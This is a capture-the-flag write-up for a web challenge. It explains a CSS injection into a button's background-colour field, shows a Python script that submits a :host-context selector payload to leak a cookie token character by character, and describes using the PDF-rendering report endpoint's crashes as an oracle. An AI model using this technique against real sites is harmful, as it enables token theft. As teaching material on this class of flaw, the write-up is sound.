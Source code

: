 # BEAUTIFUL BUTTONS (Web Exploitation)

### Challenge Description:

Hey hackers! I've created a new app to showcase your design skills. This time, I've learned from my past mistakes and made it unhackable. Think you can crack it and uncover the secret?
Pro tip: Try this challenge locally first. Once your exploit works, then attempt it on the remote instance (you can thank me later!).

### Shadow DOM:

Shadow DOM is a web technology that lets developers create parts of a web page that are isolated from the rest. This mini webpage can have its own HTML, CSS, and JavaScript, and it won’t be affected by the styles or scripts of the main page. It enables a completely encapsulated DOM Tree.
In this challenge, Shadow DOM has been used to encapsulate button styles.

### Features of Challenge:

1. Users can customize button styles.
2. Shadow DOM implemented.
3. CSP limits where scripts and styles can be loaded from.

### Exploitation:

Here, there is no strict input validation on the button attributes.

```python
app.post('/generate', async (req, res) => {
    const { bgcolor, text, size, borderRadius } = req.body;
    if (text > 20) {
        res.status(400).send("BTN text too big.....")
    }
    const newButton = new Button({ bgcolor, text, size, borderRadius });
    await newButton.save();
    res.redirect(`/show/${newButton.id}`);
});
```

Here, there's only a character limit on the button text. There are no other restrictions. We can exploit this.

```
const secretTokenHolder = document.querySelector(".container")
function getCookie(name) {
    const nameEQ = `${name}=`;
    const cookies = document.cookie.split(';');
    for (let i = 0; i < cookies.length; i++) {
        let cookie = cookies[i];
        while (cookie.charAt(0) === ' ') cookie = cookie.substring(1);
        if (cookie.indexOf(nameEQ) === 0) {
            return decodeURIComponent(cookie.substring(nameEQ.length, cookie.length));
        }
    }
    return null; // Return null if the cookie was not found
}
secretTokenHolder.setAttribute("secret", getCookie("token") ? getCookie("token") : "f00bar")
```

We need to do something to get secret.

```python
import requests
url = "https://beautiful-buttons.1nf1n1ty.team"

payload = """
#aaa;
}
:host-context(.container[secret^='f']) div{
    background: #FF0000 !important;
}
p{
"""

data = {
    "text": "1nf1n1ty",
    "bgcolor": payload,
    "borderRadius": "5",
}

response = requests.post(url + "/generate", data=data, allow_redirects=False)
post_url = response.headers["Location"]
print(url+post_url)
```

:host-context is a CSS pseudo selector, which I understand acts like an if block. That is, if the element has the class .container, and the secret attribute starts with the letter f, the button background colour will be changed to red.

```python
app.post("/report", checkAuthKey, pdflimiter, async (req, res) => {
    const { post_id, auth_key } = req.body;
    if (isValid(post_id)) {
        const exists = Button.findOne({ id: post_id });
        if (!exists) {
            return res.status(404).json({ "Error": 'Button not found' });
        }
        const url = `http://localhost:${PORT}/show/${post_id}`
        const [playerToken, _] = PlayerAdminToken.getTokenByUserID(auth_key)
        const context = await (await browser).createBrowserContext();
        try {
            const page = await context.newPage();
            await page.setViewport({ width: 1920, height: 1080 });
            await page.setCookie({
                name: "token",
                httpOnly: false,
                value: playerToken,
                url: `http://localhost:${PORT}`
            })
            await page.goto(url, {
                waitUntil: 'networkidle0',
                timeout: TIMEOUT
            });
            await page.pdf({
                path: `pdfs/${post_id}.pdf`,
                format: 'A4',
                printBackground: true,
                margin: {
                    top: '20px',
                    bottom: '20px',
                    left: '20px',
                    right: '20px'
                }
            });
            await page.close()
            await context.close()
            fs.unlink(`pdfs/${post_id}.pdf`, (err) => {
                if (err) {
                    console.error(`Error removing file: ${err.message}`);
                }
            });
            return res.json({ "feedback": 'Not that great!!' });
        } catch (error) {
            await context.close()
            if (error.message.includes('Navigation timeout')) {
                console.error(`Navigation timed out by ${auth_key}: `, error.message);
            } else {
                console.error("An unexpected error occurred:", error);
            }
            return res.status(500).json({ "feedback": "Something went wrong!!" });
        }
    }
    return res.json({ "Error": "Try Harder!!!!" })
})
```

This endpoint generates a PDF of a button preview based on a UUID. If the page loads successfully, 200 OK. Else, 500.
Here, we can trigger a loading error by manipulating the CSS as above, such that everytime a letter of secret is matched, the browser crashes. Then, flag can be found.

### New Stuff Learnt:

- Can use Shadow DOM for complete encapsulation of web components.
- This vuln can be prevented by using latest Shadow DOM APIs and stricter input validation.